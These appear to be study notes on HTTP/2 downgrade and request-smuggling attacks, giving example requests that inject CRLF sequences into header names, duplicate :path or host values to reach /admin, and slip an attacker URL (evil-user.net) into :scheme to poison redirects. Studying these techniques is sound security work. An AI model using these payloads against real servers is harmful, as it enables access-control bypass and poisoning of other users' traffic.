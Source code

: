 # Header names
**Front-end (HTTP/2)**:

| Name                                        | Value  |
| ------------------------------------------- | ------ |
| foo: bar\r\nTransfer-Encoding: chunked\r\nX | ignore |
**Back-end (HTTP/1)**:
```http
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```

# Pseudo-headers
HTTP/2 doesn't use a request line or status line.
* :method   - The request method.
* :path        - The request path. Note that this includes the query string.
* :authority - Roughly equivalent to the HTTP/1 Host header.
* :scheme   - The request scheme, typically http or https.
* :status      - The response status code (not used in requests).

### Supplying an ambiguous host
 Although the HTTP/1 Host header is effectively replaced by the :authority pseudo-header in HTTP/2, you're still allowed to send a host header in the request as well.

In some cases, this may result in two Host headers occurring in the rewritten HTTP/1 request, which opens up another possibility for bypassing front-end "duplicate Host header" filters, for example. This potentially makes the site vulnerable to a range of [[Exploit headers vulns]] attacks.

### Supplying an ambiguous path
```
:method     POST
:path 	    /anything
:path 	    /admin
:authority 	vulnerable-website.com
```
If there is a discrepancy between which path is validated by the website's access controls and which path is used to route the request, this may enable you to access endpoints that would otherwise be off limits. 

### Injecting a full request line
**Front-end (HTTP/2)**:
```
:method     GET /admin HTTP/1.1
:path 	    /anything
:authority 	vulnerable-website.com
```
**Back-end (HTTP/1)**:
```http
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vulnerable-website.com
```
As long as the server also tolerates the arbitrary trailing characters in the request line, this provides another means of creating a request with an ambiguous path. 

### Injecting a URL prefix
**Request**
```http2
:method 	GET
:path 	    /anything
:authority 	vulnerable-website.com
:scheme 	https://evil-user.net/poison?
```
**Response**:
```http2
:status 	301
location 	https://evil-user.net/poison?://vulnerable-website.com/anything/
```
### Injecting newlines 
**HTTP/1 Path line**
```
<method> + space + <path> + space + HTTP/1.1
```
**Front-end (HTTP/2)**:
```http2
:method 	GET
:path 	    /example HTTP/1.1\r\n
            Transfer-Encoding: chunked\r\n
            X: x
:authority 	vulnerable-website.com
```
**Back-end (HTTP/1)**:
```http
GET /example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```